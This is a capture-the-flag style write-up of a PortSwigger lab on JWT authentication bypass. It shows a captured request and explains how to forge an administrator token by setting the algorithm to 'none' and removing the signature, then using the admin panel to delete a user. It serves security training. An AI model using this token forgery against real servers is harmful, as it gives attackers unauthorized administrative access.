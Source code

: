 # JWT authentication bypass via flawed signature verification

Link: https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification

This lab uses a JWT-based mechanism for handling sessions. The server is insecurely configured to accept unsigned JWTs.

To solve the lab, modify your session token to gain access to the admin panel at /admin, then delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 

### solution

- start by logging in using the creds wiener:peter as mentioned in the challange
- when you access /admin endpoint you will get this message `Admin interface only available if logged in as an administrator`
- go to burp suit and intercept this request
```
GET /admin HTTP/2
Host: 0af5008504014cf28363ec620058009f.web-security-academy.net
Cookie: session=eyJraWQiOiI5ZWE4ZWRiOS0xZTdlLTQ3NGItOGFkYS03NjM5MTljODU3YjMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNzM4NDYyOX0.w0BatL3HjFnGRyAj130DBaow6cBnKdboqVfrUVrKYE_txHCEIHaRaU26yIp3QhluAOHziUKzjWv9tapqUrhetJqB5rMO6n-Id51uHt-r0f4ev9tZ97HDT8U-6rmglq3BgCJbZ9fjhRYZNg1fJLEgBQnL0nQivSm1Fx8JKbsTu2Asvdvk5xn_gFS1OuvYbFA7_GgCkb4WWEBL6YtNfV-vvLRW-0w15f9cP4WFIwYAGIGoXZYxUaxAlnhX_EhBBpV_B0DVD5clMhRMIg58LPZ-DKOGaxXwfPFppxvau_j06YIqLoEYIjQNWGUZqO13JvA35xR_EDCszU77bRdFZaxRYQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```

- We see that interesting cookie session which is JWT
- Decode the payload and it will be
`{"iss":"portswigger","sub":"wiener","exp":1707384629}`
- changing `wiener` to `administrator` then encode it again and send the request after the modification
- We are still unauthorized
- so let's Decode the Header, it will be
`{"kid":"9ea8edb9-1e7e-474b-8ada-763919c857b3","alg":"RS256"}`
- make `alg` to be `none` and remove the signature part from the token (don't remove the dot)
- We accessed `/admin` successfully
- now let's delete carlos by sending the request to `/admin/delete?username=carlos`
- congratzzzzzzzzzzzzzzzz